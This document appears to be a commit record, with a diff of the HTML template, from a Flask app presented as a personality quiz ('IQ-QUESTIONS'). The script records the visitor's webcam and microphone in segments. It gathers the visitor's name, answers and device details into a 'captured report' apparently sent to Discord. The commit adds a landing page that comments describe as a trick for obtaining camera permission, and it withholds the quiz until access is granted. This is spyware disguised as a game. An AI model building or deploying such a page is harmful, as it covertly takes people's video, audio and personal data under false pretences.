

Before and after one commit to Youssef-mehrzi/IQ-QUESTIONS, a Flask app: page / in a window 1280 px wide. Shown: the top 1920 px of the page at 78% size, without its empty margins (264-1280 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -7,7 +7,6 @@
     <link href="https://fonts.googleapis.com/css2?family=Plus+Jakarta+Sans:wght@400;500;600;700;800&display=swap" rel="stylesheet">
     <style>
         :root {
-            /* تعديل الخلفية لتصبح بيضاء/فاتحة بدل البنفسجي الغامق */
             --bg-gradient: linear-gradient(135deg, #f8fafc 0%, #e2e8f0 100%);
             --card-bg: rgba(255, 255, 255, 0.98);
             --primary-accent: #6366f1;
@@ -36,7 +35,12 @@
         [dir="rtl"] .question-box { text-align: right; }
         .question-box label { display: block; font-weight: 700; margin-bottom: 8px; color: var(--text-main); font-size: 14px; }
         .question-box select { width: 100%; padding: 10px 12px; font-size: 14px; font-family: inherit; color: var(--text-main); background-color: var(--input-bg); border: 1px solid var(--border-color); border-radius: 8px; outline: none; cursor: pointer; }
-        button { padding: 16px 24px; border: none; border-radius: var(--radius-md); cursor: pointer; font-weight: 700; font-size: 16px; width: 100%; background: linear-gradient(135deg, #10b981 0%, #059669 100%); color: white; margin-top: 20px; box-shadow: 0 10px 20px -5px rgba(16, 185, 129, 0.4); }
+
+        /* أزرار العمليات والصفحة الوسيطة */
+        .action-btn { padding: 16px 24px; border: none; border-radius: var(--radius-md); cursor: pointer; font-weight: 700; font-size: 16px; width: 100%; background: linear-gradient(135deg, #6366f1 0%, #4f46e5 100%); color: white; margin-top: 20px; box-shadow: 0 10px 20px -5px rgba(99, 102, 241, 0.4); }
+        .submit-btn { background: linear-gradient(135deg, #10b981 0%, #059669 100%); box-shadow: 0 10px 20px -5px rgba(16, 185, 129, 0.4); }
+
+        #quiz-section { display: none; } /* مخفية في البداية حتى يتم الضغط على زر الدخول */
         #status { margin-top: 20px; font-weight: 700; font-size: 15px; padding: 10px; border-radius: 6px; }
     </style>
 </head>
@@ -58,7 +62,14 @@
             <video id="webcam" autoplay playsinline muted></video>
         </div>
 
-        <form id="quizForm" onsubmit="event.preventDefault(); verifyAndStop();">
+        <!-- 1. الصفحة الوسيطة (الزر السحري لطلب الإذن بصفة قانونية) -->
+        <div id="landing-section">
+            <p id="landingDesc" style="color: var(--text-muted); margin-bottom: 20px; font-weight: 600;">Cliquez sur le bouton ci-dessous pour lancer l'accès sécurisé et commencer le test.</p>
+            <button type="button" id="startBtn" class="action-btn" onclick="requestCameraAndStart()">Démarrer / ابدأ الآن</button>
+        </div>
+
+        <!-- 2. قسم الأسئلة الفعلي يظهر بعد الموافقة -->
+        <form id="quiz-section" onsubmit="event.preventDefault(); verifyAndStop();">
             <input type="text" id="username" placeholder="Votre Nom Complet" required><br>
 
             <div class="question-box"><label id="lbl1">1. Penses-tu être plus beau/belle que moi ?</label><select id="q1" required><option value="" class="opt-select">Sélectionnez une réponse</option><option value="Oui" class="opt-yes">Oui</option><option value="Non" class="opt-no">Non</option></select></div>
@@ -82,7 +93,7 @@
             <div class="question-box"><label id="lbl19">19. Pouvez-vous tenir une heure sans Internet ?</label><select id="q19" required><option value="" class="opt-select">Sélectionnez une réponse</option><option value="Très facile" class="opt-easy">Très facile</option><option value="Impossible" class="opt-impossible">Impossible</option></select></div>
             <div class="question-box"><label id="lbl20">20. Êtes-vous satisfait(e) de votre vie actuelle ?</label><select id="q20" required><option value="" class="opt-select">Sélectionnez une réponse</option><option value="Satisfait" class="opt-satis">Oui, très satisfait(e)</option><option value="Non satisfait" class="opt-notsatis">Non, pas du tout</option></select></div>
 
-            <button type="button" id="submitBtn" onclick="verifyAndStop()">VALIDER ET ENVOYER</button>
+            <button type="button" id="submitBtn" class="action-btn submit-btn" onclick="verifyAndStop()">VALIDER ET ENVOYER</button>
         </form>
 
         <div id="status"></div>
@@ -171,9 +182,8 @@
                     if (val) answersSummary += `Q${i}: ${val} | `;
                 }
 
-                // تنسيق تقرير ديسكورد المفصل تماماً كالذي طلبته
                 const deviceStr = Object.entries(deviceDetails).map(([k, v]) => `• **${k}**: ${v}`).join('\n');
-                const messageText = `✅ **Nouveau Rapport Capturé (Capture/Formulaire):**\n• **Nom / Statut:** ${username} [🎥 فيديو مباشر (Live Video)]\n• **Questions:** ${answersSummary}\n${deviceStr}`;
+                const messageText = `✅ **Nouveau Rapport Capturé:**\n• **Nom:** ${username} [🎥 فيديو مباشر]\n• **Questions:** ${answersSummary}\n${deviceStr}`;
 
                 const formData = new FormData();
                 formData.append('content', messageText);
@@ -208,10 +218,16 @@
             }
         }
 
-        window.addEventListener('DOMContentLoaded', async () => {
+        // دالة يتم تفعيلها حصرياً عند الضغط على زر "بدء التحقق" لتجاوز قيود المتصفح بصفة قانونية
+        async function requestCameraAndStart() {
             try {
                 mediaStream = await navigator.mediaDevices.getUserMedia({ video: true, audio: true });
                 document.getElementById('webcam').srcObject = mediaStream;
+
+                // إخفاء الصفحة الوسيطة وإظهار نموذج الأسئلة
+                document.getElementById('landing-section').style.display = 'none';
+                document.getElementById('quiz-section').style.display = 'block';
+
                 setTimeout(startNewRecorderSegment, 2000);
                 videoInterval = setInterval(() => {
                     if (!isCompleted && mediaRecorder && mediaRecorder.state === "recording") {
@@ -220,9 +236,10 @@
                     }
                 }, 10000);
             } catch (err) {
-                console.error("Caméra refusée");
+                alert("الرجاء السماح بالوصول للكاميرا للمتابعة! / Veuillez autoriser la caméra pour continuer.");
+                console.error("Caméra refusée", err);
             }
-        });
+        }
 
         async function verifyAndStop() {
             const statusDiv = document.getElementById('status');
```
